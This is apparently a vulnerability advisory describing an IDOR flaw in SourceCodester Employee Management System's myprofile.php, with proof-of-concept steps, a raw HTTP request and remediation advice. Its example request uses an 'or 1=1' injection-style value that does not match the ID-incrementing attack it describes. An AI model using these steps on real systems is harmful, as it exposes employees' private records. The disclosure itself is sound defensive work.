 # SourceCodester Employee Management System IDOR myprofile.php

## Vendor Homepage:
[SourceCodester Employee Management System](https://www.sourcecodester.com/php/14432/employee-management-system-using-php.html)

## Impact:
The SourceCodester Employee Management System's `myprofile.php` page is susceptible to an Insecure Direct Object Reference (IDOR) vulnerability. By manipulating the `id` parameter in the URL, an attacker can access other employees' profiles without proper authorization. This could lead to unauthorized disclosure of sensitive information, such as personal details or salary data, posing a significant privacy risk to employees and potentially violating data protection regulations.

## Proof of Concept:
1. Visit `/myprofile.php?id=`.
2. Fill the `id` parameter with any number or increment the current ID.
3. Other employees' information can be viewed.

## Request Example:
```http 
GET /myprofile.php?id=1%20or%201=1 HTTP/1.1
Host: [REDACTED]
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```
### Remediation:
To mitigate this IDOR vulnerability in myprofile.php, access controls should be implemented to ensure that users can only view their own profiles. This can be achieved by validating the user's session or role and verifying that the requested profile corresponds to their own account. Additionally, sensitive information should be encrypted or obscured to limit the potential impact of unauthorized access. Regular security audits and testing should be conducted to identify and address any similar vulnerabilities in the application.

### CWE:
[CWE-639: Authorization Bypass Through User-Controlled Key](https://cwe.mitre.org/data/definitions/639.html)

